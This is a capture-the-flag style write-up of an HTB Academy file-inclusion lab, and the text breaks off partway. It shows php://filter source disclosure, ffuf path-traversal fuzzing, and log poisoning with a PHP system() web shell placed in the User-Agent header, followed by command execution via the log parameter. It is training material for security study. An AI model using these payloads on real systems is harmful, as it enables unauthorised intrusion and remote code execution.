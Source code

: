 # Skill Assessment HTB File Inclusion Writeup

After completing the File Inclusion module on HTB Academy, I proceeded to the skill assessment. Below is a detailed walkthrough of my approach and findings.

## Target Reconnaissance
I began by navigating to the provided target in my browser.

![Screenshot 2025-04-16 122158](https://github.com/user-attachments/assets/139d79ef-db19-4cb3-abb2-2b2773878a25)

After reviewing the site, I identified the page parameter as a potential vector for file inclusion, as shown in the screenshot above.

## Parameter Testing and LFI Fuzzing
Using Burp Suite, I intercepted requests and tested the page parameter with payloads from `LFI-Jhaddix.txt`. The responses indicated two distinct sizes: one for invalid input and another for less interesting content. 

![Screenshot 2025-04-16 123012](https://github.com/user-attachments/assets/d6a66a10-f594-43e9-8362-ae1e52765437)

## Exploring PHP Wrappers 

Since direct LFI attempts yielded no valuable results, I pivoted to PHP wrappers. I first tried reading the contact resource using the php://filter wrapper and base64-decoded the output, but found nothing useful.

```bash
php://filter/read=convert.base64-encode/resource=contact
```

![Screenshot 2025-04-16 124448](https://github.com/user-attachments/assets/aceb9d96-afa5-4f37-844d-dbee885ace76)

So I decoded it and found that its content was not useful so I thought of fuzzing the PHP files using ffuf
```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.230:36621/FUZZ.php
```
![image](https://github.com/user-attachments/assets/eb56a909-377e-4416-87c2-5fb46eecd192)

But when I tried with index as a resource. Found something interested. 
```bash
php://filter/read=convert.base64-encode/resource=index
```
![Screenshot 2025-04-16 130346](https://github.com/user-attachments/assets/2f21001a-6718-4656-8441-ba11715c7d61)

Unsanitaized Admin page is found here. This indicates that there is a hidden Admin panel and it displays some logs.

![Screenshot 2025-04-16 130633](https://github.com/user-attachments/assets/b782e58c-6fb1-46ca-ba5d-460d0392b1e6)

I also noticed that there is another parameter that specifies the type of logs that are displayed, So I tried to use LFI payloads and it worked.

![image](https://github.com/user-attachments/assets/283fae8e-145d-4b12-b332-386e275bb07e)

Then I tried to access the file that contains the web application’s logs by fuzzing these files to reach the correct path.

```bash
ffuf -w ./Downloads/LFI-gracefulsecurity-linux.txt:FUZZ -u http://94.237.55.96:37944/ilf_admin/index.php?log=../../../../../../../../../../FUZZ -fs 2046
```
![image](https://github.com/user-attachments/assets/b9c06d60-c591-430d-9813-4766a8a284ea)

```bash
index.php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=id
User Agent: <?php system ($_GET['cmd']); ?>
```

![Screenshot 2025-04-16 135741](https://github.com/user-attachments/assets/249a9d64-e80d-40e2-a949-d9c4f56049b3)

Found uid, gid and groups that means we can get the flags by using shell as a user agent.

```bash
php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=ls+/
```
![Screenshot 2025-04-16 135803](https://github.com/user-attachments/assets/7b75caeb-df7f-48db-a092-abb3404636cf)

```bash
php?log=../../../../../../../../../..//var/log/nginx/access.log&cmd=ls+/<file_name>
```
